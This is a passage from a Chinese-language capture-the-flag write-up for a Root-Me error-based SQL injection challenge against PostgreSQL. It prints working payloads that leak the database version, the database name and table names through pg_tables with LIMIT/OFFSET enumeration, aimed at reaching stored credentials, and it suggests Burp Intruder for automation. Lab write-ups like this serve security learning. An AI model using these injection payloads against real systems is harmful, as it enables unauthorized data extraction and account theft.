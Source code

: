 ------------

## 获取数据库信息

有了通用 payload ，我们就可以结合 pgsql 数据库的系统表或函数，构造针对性的 payload 去查询一些关键信息了。

例如要获取数据库版本：`,(CAST(CHR(62)||(SELECT VERSION()) AS NUMERIC))`

得到：PostgreSQL 9.3.20 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4, 64-bit

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/13.png)

又如要获取数据库名称：`,(CAST(CHR(62)||(SELECT CURRENT_DATABASE()) AS NUMERIC))`

得到：c_webserveur_34

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/14.png)

------------

## 寻找目标表

由于我们的目的是找到账号密码成功登陆，因此需要先找到记录账密的表。

在 pgsql 中，有一张固定的系统表 `pg_tables` 记录了所有库中所有表，其 [表结构](https://www.postgresql.org/docs/8.3/view-pg-tables.html) 为：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/15.png)

先构造这样的 payload 查看当前数据库表的数量，一共 60 张表：

`,(CAST(CHR(62)||(SELECT COUNT(1) FROM pg_tables) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/16.png)


从 `pg_tables` 的表结构可以知道其中一列是 `tablename` ，尝试构造这样的 payload 获得所有表名：

`,(CAST(CHR(62)||(SELECT tablename from pg_tables) AS NUMERIC))`

但是出错了，原因是构造的 SELECT 表达式返回的值不能超过 1 行。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/17.png)

在 payload 中添加 `LIMIT 1` 即可避免此异常：

`,(CAST(CHR(62)||(SELECT tablename from pg_tables LIMIT 1) AS NUMERIC))`

成功获得了第一张表名 `pg_statistic` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/18.png)



但 `LIMIT 1` 限制了每次都只能取到第一张表，又要怎样得到所有表名 ?

其实方法也有很多，例如利用偏移 `LIMIT 1 OFFSET k` ，只要把 `k` 从 0 枚举到 59 ，发起请求 60 次，即可得到全部 60 张表， payload 为：`,(CAST(CHR(62)||(SELECT tablename from pg_tables LIMIT 1 OFFSET k) AS NUMERIC))` （注意把 `k` 换成数字）。可以编程实现 `k` 值枚举，不过这里推荐使用 Burp Suite 的 Intruder 实现：
